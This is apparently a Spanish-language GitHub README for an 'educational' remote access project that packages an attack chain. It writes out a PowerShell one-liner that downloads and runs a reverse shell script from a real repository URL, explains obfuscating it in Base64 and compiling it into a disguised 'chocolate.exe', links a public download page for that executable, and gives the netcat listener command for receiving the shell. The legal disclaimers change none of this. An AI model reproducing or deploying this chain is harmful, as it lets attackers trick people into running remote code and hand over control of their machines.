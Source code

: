 # Remote Code Execution Educational Project
⚠️ **ADVERTENCIA CRÍTICA: PROYECTO SOLO PARA FINES EDUCATIVOS**
⚠️🚨 **NO EJECUTAR EL EXE DE PRUEBA (chocolate.exe)**⚠️🚨
---

## Descripción del Proyecto
Este repositorio contiene código educativo diseñado exclusivamente para comprender el funcionamiento de los RAT (Remote Administration Tools) y técnicas de ejecución remota de código. El objetivo es proporcionar material de estudio para profesionales de ciberseguridad, investigadores y estudiantes en entornos controlados.

🚨 **USO RESPONSABLE REQUERIDO**

- Solo ejecutar en laboratorios aislados  
- Nunca utilizar contra sistemas sin autorización explícita  
- Comprender las implicaciones legales antes de proceder

---

## Estructura del Proyecto

### Paso 1: Ejecución Remota mediante PowerShell Ofuscado
El proyecto implementa una técnica común de ofuscación usando Base64 para ejecutar código PowerShell remotamente.

**Comando Original:**
```powershell
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/akthanon/cybersecurity-tools/refs/heads/main/shell.ps1')"
```

```python
import os

# Comando PowerShell ofuscado en Base64 con osfuscarshell.py

chocolate.py
```

---

### Paso 2: Compilación a Ejecutable
Compilación del script Python a archivo ejecutable:

```
chocolate.exe
```

```bash
pyinstaller --onefile .\chocolate.py
```

### Descarga del .exe

Para facilitar la descarga del archivo se creó una pagina llamada descarga.html que tiene un botón para descargar el archivo chocolate.exe

la pagina también está hosteada en clouflare

https://chocolate.jorpavelazc-93f.workers.dev/descarga

---

### Shell PowerShell (`shell.ps1`)
Código para establecer conexión reversa:

```
shell.ps1
```

---

### Configuración del Listener
En la máquina atacante (solo para pruebas educativas):

```bash
nc -lvnp 4444
```

---

### Payload Divertido de Ejemplo 
```
$url = "https://www.adslzone.net/app/uploads-adslzone.net/2017/01/hacked.jpg"; $output = "imagen.jpg"; Write-Host "Descargando imagen desde $url..."; Invoke-WebRequest -Uri $url -OutFile $output; if (Test-Path $output) { Write-Host "Imagen descargada correctamente."; Start-Process $output } else { Write-Host "Error: No se pudo descargar la imagen." }; $video = "https://www.youtube.com/watch?v=dQw4w9WgXcQ"; Write-Host "Abriendo video de YouTube..."; Start-Process $video
```

---

## 🔒 Advertencias de Seguridad

⚠️ **DECLARACIÓN LEGAL IMPORTANTE**

- **USO ÉTICO OBLIGATORIO:** Este código debe usarse solo con fines educativos.  
- **AUTORIZACIÓN REQUERIDA:** Nunca ejecutar en sistemas sin permiso explícito.  
- **RESPONSABILIDAD DEL USUARIO:** El mal uso de este material es responsabilidad exclusiva del usuario.  
- **CONSECUENCIAS LEGALES:** El uso no autorizado puede violar leyes locales e internacionales.

---

## Configuración Segura Recomendada
- Ejecutar en máquinas virtuales aisladas  
- Usar redes de laboratorio separadas  
- Desactivar conexión a internet durante pruebas  
- Monitorear con herramientas de seguridad

---

## Objetivos Educativos
- Comprender técnicas de ofuscación de código  
- Analizar mecanismos de ejecución remota  
- Estudiar patrones de comportamiento de RAT  
- Desarrollar contramedidas de detección

---

## Contribuciones
Se aceptan contribuciones que mejoren el valor educativo o añadan análisis de detección y prevención.

---

⚠️ **RECUERDA:** El conocimiento es poder, pero la responsabilidad es esencial. Usa este material sabiamente.
